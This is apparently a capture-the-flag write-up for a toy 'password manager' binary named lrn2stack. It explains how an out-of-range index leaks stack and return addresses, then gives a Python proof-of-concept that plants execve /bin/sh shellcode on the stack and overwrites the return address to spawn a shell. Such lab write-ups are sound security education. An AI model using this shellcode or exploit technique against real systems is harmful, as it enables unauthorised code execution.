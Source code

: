 # lrn2stack

When running the binary, it expects a few options as user input: choice of function, index of storage, and data to be stored (username and password).

The prompt with expected input appears as below:

```
Welcome to the Very Useful Password Manager
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 1
enter index
-> 0
enter username
-> AAAA
enter password
-> BBBB
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> 0
AAAA:BBBB
```

Choosing the option 1: add credentials will prompt the user for an index to write to and then ask the user to input a 32 character username and a 32 character password. Using gdb, it was determined that the username and password would be stored adjacent on the stack.

![disas1](./lrn2stack1.png)

Choosing the option 2: print credentials will prompt the user for an index to access a username and password and print them in the format "username:password"

![disas2](./lrn2stack2.png)

Effectively, these can be used to write and read data.

By providing some unexpected input to the index of storage, (ascii 0x2e '.') the following data was printed:

```
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> .
��:b�
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
```

Following the same input to the binary in strace, this is shown to be: 

`write(0, "\4\27\342\367:b\207\4\10\n", 10��:b�`

When converted to hex, these values are: 

`\x04\x17\xe2\xf7:\x62\x87\x04\x08\x0a`

On the left side, the 4-byte value starting with \xf7 appears to be a stack address whereas on the right side, the value 0x08048762 appears to be an address in .text, meaning a possible return address.

Examining the instruction at 0x080f8762 was found to be add esp, 0x10 after a call to printf

When testing the write in gdb, got a segmentation fault and overwrite of EIP

![segfault](./lrn2stack3.png)

At this point, a possible course of action is to first write shellcode to the stack using add credentials then use the add credentials option to write to index '.', overwriting the return address to point to the shellcode on the stack.

To find a valid stack address, the binary was hosted on socat and hooked up to gdbserver. Breakpoint was set after printf at 0x08048762 when reading with option 2, then stack was examined. In the image below, the stack address used would be 0xffffce9c pointing to where the user input for username will be stored on the stack at index 0.

![findstackaddress](./lrn2stack4.png)

After checking for security mitigations (no PIE, no NX, ASLR off), the proof of concept for the exploit was developed.

```python
#!/usr/bin/python
# lrn2stack.elf
# Executed from root@aws-40:~/Downloads/bsidessactf# socat TCP-LISTEN:2323,reuseaddr,fork EXEC:"./lrn2stack.elf"
# NO PIE, NX OFF, ASLR OFF
# b *0x08048762

import socket
import struct
import telnetlib

TCP_IP = 'localhost'
TCP_PORT = 2323
# stack range - 0xfffdd000 0xffffe000    0x21000        0x0 [stack]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))

print s.recv(1024)
#"Please input an option"
s.send("1\n")

print s.recv(1024)
#"enter index"
# store shellcode at 0xffffcebc
s.send("0\n")

print s.recv(1024)
# shellcode 24 bytes from https://www.exploit-db.com/exploits/42428/
username = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n"

s.send(username)

print "SENDING > " + username.encode('hex')
print s.recv(1024)

password = "BBBB\n"
s.send(password)
print s.recv(1024)

print s.recv(1024)

# Now trigger eip overwrite to point to shellcode at 0xffffcebc
s.send("1\n")

print s.recv(1024)
s.send(".\n")

print s.recv(1024)
s.send("AAAA\n")

print s.recv(1024)
password = struct.pack("I", 0xffffce9c) + "\n"
# 0xffffce4c
# 0xffffce9c
# 0xffffceac
s.send(password)

print "Did we get a shell?"

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
